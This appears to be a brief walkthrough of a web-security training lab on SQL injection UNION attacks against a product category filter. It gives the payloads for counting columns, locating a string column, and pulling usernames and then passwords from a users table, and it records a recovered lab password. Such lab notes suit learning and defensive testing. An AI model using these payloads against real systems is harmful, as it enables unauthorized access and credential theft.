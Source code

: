


## Endgoal = perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 
but here only one column is displayed



## Burp

GET /filter?category=Gifts HTTP/2


## finding number of column

`gifts' union select null , null , null .... --`


-> we found the number of columns to be = 2


## findind column with string datatype


`gifts' union select 'a' , null--`
`gifts' union select null,'a' --`


we found second column is of string data type



## retrieving username and password
since there is only one column of string datatype , we have to output username and password one by one


--> retreiving username
`gifts' union select null,username from users --`

![[../../images/Pasted image 20231103001816.png]]

--> retreiving password
`gifts' union select null,password from users --`

![[../../images/Pasted image 20231103001845.png]]

password = k67hen3dutggsktkz2as







